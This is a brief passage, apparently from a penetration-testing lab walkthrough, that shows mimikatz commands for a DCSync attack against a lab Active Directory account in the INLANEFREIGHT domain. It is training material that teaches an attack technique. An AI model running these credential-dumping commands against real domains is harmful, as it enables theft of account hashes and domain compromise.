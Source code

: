 Confirm with `klist`.

We can then perform a DCSync attack:

```bash
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

or:

```bash
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

